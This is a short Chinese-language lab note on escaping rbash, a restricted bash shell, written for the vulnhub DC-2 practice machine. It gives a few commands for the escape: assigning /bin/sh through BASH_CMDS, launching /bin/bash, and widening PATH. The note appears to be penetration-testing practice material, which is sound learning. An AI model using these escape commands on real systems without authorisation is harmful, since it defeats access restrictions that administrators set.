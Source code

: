 ## rbash为一个受限制的bash shell变体，限制用户在交互式环境中可使用的操作，以此提升系统安全性

可通过环境变量提权方式，越过此限制

```bash
export -p        //查看环境变量
BASH_CMDS[a]=/bin/sh;a         //把/bin/sh给a
/bin/bash
export PATH=$PATH:/bin/         //添加环境变量
export PATH=$PATH:/usr/bin      //添加环境变量
```

实验环境——vulnhub-dc2靶场

![image-20240119170254942](http://111.229.225.13:81/i/2024/01/19/uj30jo-2.png)